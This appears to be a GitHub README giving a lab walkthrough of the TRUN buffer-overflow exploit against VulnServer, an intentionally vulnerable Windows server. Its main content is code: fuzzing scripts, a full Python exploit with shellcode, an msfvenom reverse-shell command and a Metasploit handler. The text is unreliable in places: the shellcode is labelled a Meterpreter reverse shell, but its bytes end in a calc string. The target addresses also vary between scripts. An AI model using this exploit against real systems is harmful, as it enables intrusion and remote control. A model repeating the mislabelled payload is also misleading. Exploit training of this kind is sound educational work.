







# Basic Buffer Overflow - VulnServer TRUN

A step-by-step walkthrough of exploiting the TRUN command buffer overflow vulnerability in VulnServer.


## Introduction

Welcome to my project exploring a classic Windows buffer overflow vulnerability using the TRUN command in VulnServer. This tutorial walks through the entire process from fuzzing to getting a Meterpreter shell - all step by step with explanations along the way.

VulnServer is an intentionally vulnerable Windows TCP server that's perfect for learning exploitation techniques. While it doesn't have any real functionality (it's vulnerable by design), it provides an excellent educational platform for practicing buffer overflow attacks in a controlled environment.

## Project Overview

In this project, we'll:
1. Set up our environment with VulnServer and Immunity Debugger
2. Fuzz the TRUN command to identify the vulnerability
3. Find the exact crash point and control EIP
4. Identify bad characters
5. Find a JMP ESP instruction to use
6. Generate and inject shellcode
7. Get a Meterpreter shell!

## Environment Setup

### Tools Used
- **VulnServer**: Our target vulnerable application
- **Immunity Debugger**: For analyzing the crash and memory
- **Kali Linux**: For running our exploitation script
- **Python**: For writing our exploit
- **Mona**: A powerful plugin for Immunity Debugger
- **Metasploit**: For shellcode generation and more

### Installing VulnServer
1. Download [VulnServer](https://github.com/stephenbradshaw/vulnserver/archive/refs/heads/master.zip)
2. Extract and run `vulnserver.exe` on your Windows machine

### Setting Up Immunity Debugger
1. Download [Immunity Debugger](https://www.softpedia.com/get/Programming/Debuggers-Decompilers-Dissasemblers/Immunity-Debugger.shtml) and install it
2. Install the [Mona.py](https://github.com/aymenmarjan/BufferOverflow-VulnServer/blob/main/mona.py) plugin by placing it in the PyCommands folder:
   ```
   C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\
   ```



## Step 1: Fuzzing the Application

We'll start by creating a fuzzing script to identify if and where the vulnerability exists SPIKE tool.

Create a fuzzer.spk file:

```spk
s_readline();
s_string("TRUN ");
s_string_variable("FUZZ");
```

Open `vulnserver.exe` with Immunity Debugger, click `F9` to start the server.



Run the fuzzer from kali machine against VunlServer to identify potential buffer overflow:

```bash
generic_send_tcp [VulnServer_IP] 9999 Fuzzer.spk 0 0
```

Running this script, we'll see the application crash when we hit a certain buffer length `Access violation when excuting [41414141]`. This confirms the vulnerability exists and gives us a starting point.



## Step 2: Finding the Crash Point

Once we've confirmed the crash, we need to determine exactly where the crash occurs.

After the applicatoin crashed. In the Debugger, `Right click` on `ESP` value in Registers section > `Follow in Dump`, then you wanna Note :

- The first address the fuzzing begins with: (In my case `0x00AFF1F0`)



- The last address the fuzzing ends with: (In my case `0X00AFFD98`)



Then do the math:



So we've been able to make the application crash by fuzzing it with 2984 byte (A's).

Lets try now to write our own python script that will crash the program, instead of using spike.

```python
import socket

s = socket.socket()
s.connect(("192.168.177.130", 9999))

total_length = 2984

payload = [
        b"TRUN /.:/",
        b"A"*total_length
]

payload = b"".join(payload)

s.send(payload)

s.close()
```

When we run this while monitoring the application in Immunity Debugger, we'll see it crash with EIP filled with "A"s (41414141 in hex), confirming we can control the instruction pointer.



## Step 3: Finding the Exact Offset

Now we need to find exactly where in our buffer we're overwriting EIP. We'll use a cyclic pattern instead of just As:

```python
#!/usr/bin/python3
import socket
import struct

# Create a cyclic pattern using MSF pattern_create
# In Kali: /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co"

buffer = b"TRUN /.:/" + pattern

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.98", 9999))
s.recv(1024)
s.send(buffer)
s.close()

print("Pattern sent!")
```

After the crash, we'll see a unique value in EIP (e.g., 386F4337). We can use pattern_offset to find where this occurs:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386F4337
```

This will tell us the exact offset is 2003 bytes.

## Step 4: Verifying Control of EIP

Let's verify we have precise control of EIP by crafting a buffer with:
- A padding of A's up to the offset
- B's (42424242) to overwrite EIP
- C's after to verify we can control what comes after EIP

```python
#!/usr/bin/python3
import socket
import struct

# Variables
offset = 2003
total_length = 2984

# Build our buffer
buffer = b"TRUN /.:/" 
buffer += b"A" * offset        # Padding until we hit EIP
buffer += b"B" * 4             # Overwrite EIP with "BBBB"
buffer += b"C" * (total_length - offset - 4)  # Data after EIP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.98", 9999))
s.recv(1024)
s.send(buffer)
s.close()

print("Buffer sent with EIP control verification!")
```

In Immunity Debugger, we should see EIP filled with 42424242 (our "B"s) - confirming we have precise control!

## Step 5: Checking for Bad Characters

When crafting shellcode, we need to avoid "bad characters" that might break our exploit. Let's test all possible bytes:

```python
#!/usr/bin/python3
import socket
import struct

# Variables
offset = 2003
total_length = 2984

# All possible bytes
all_chars = b""
for i in range(1, 256):  # Skip null byte (0x00)
    all_chars += struct.pack("B", i)

# Build our buffer
buffer = b"TRUN /.:/" 
buffer += b"A" * offset
buffer += b"B" * 4
buffer += all_chars
buffer += b"C" * (total_length - offset - 4 - len(all_chars))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.98", 9999))
s.recv(1024)
s.send(buffer)
s.close()

print("Testing for bad characters...")
```

After examining memory in Immunity Debugger, we'll find only the null byte (0x00) is a bad character.

## Step 6: Finding a JMP ESP Instruction

Now we need to find a JMP ESP instruction to use as our return address. We'll use the Mona plugin in Immunity Debugger:

```
!mona jmp -r esp -cpb "\x00"
```

This command finds all JMP ESP instructions, excluding those with addresses containing null bytes. We'll find an address like `0x625011af` in `essfunc.dll`.

## Step 7: Building the Final Exploit

Now we'll build our final exploit with:
1. Padding to reach EIP
2. JMP ESP address to gain control of execution
3. A NOP sled for stability
4. Our shellcode

```python
#!/usr/bin/python3
import socket
import struct

# Variables
offset = 2003
total_length = 2984
return_address = struct.pack("<I", 0x625011af)  # JMP ESP address in little-endian

# Create a NOP sled
nop_sled = b"\x90" * 16

# Generate shellcode (this example creates a reverse shell to 10.0.0.145 port 4444)
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.145 LPORT=4444 -f python -b "\x00"
shellcode = (
    b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
    b"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26"
    b"\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7"
    b"\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78"
    b"\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3"
    b"\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
    b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58"
    b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
    b"\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a"
    b"\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d"
    b"\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb"
    b"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
    b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
    b"\xff\xd5\x63\x61\x6c\x63\x00"
)

# Build our final buffer
buffer = b"TRUN /.:/" 
buffer += b"A" * offset
buffer += return_address
buffer += nop_sled
buffer += shellcode
buffer += b"C" * (total_length - offset - len(return_address) - len(nop_sled) - len(shellcode))

# Send the exploit
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.98", 9999))
s.recv(1024)
s.send(buffer)
s.close()

print("Exploit sent! Check your handler for a shell.")
```

## Step 8: Catching the Shell

Before running our exploit, we need to set up a handler in Metasploit:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.0.145
set LPORT 4444
run
```

Once our handler is running, we execute our exploit script and... BOOM! We get a Meterpreter shell!

## Conclusion

And that's it! We've successfully:
1. Identified a buffer overflow vulnerability
2. Found the exact crash point
3. Gained control of EIP
4. Located usable instructions in memory
5. Injected our shellcode
6. Obtained a shell on the target system

This project demonstrates the classic buffer overflow exploitation technique in a controlled environment. Remember, these skills should only be used legally and ethically - such as in penetration testing with proper authorization.

Feel free to experiment with different payloads, try to make your exploit more reliable, or explore other vulnerable functions in VulnServer!

## References
- VulnServer project
- Immunity Debugger and Mona documentation
- OWASP Buffer Overflow Guide
- Metasploit Framework documentation
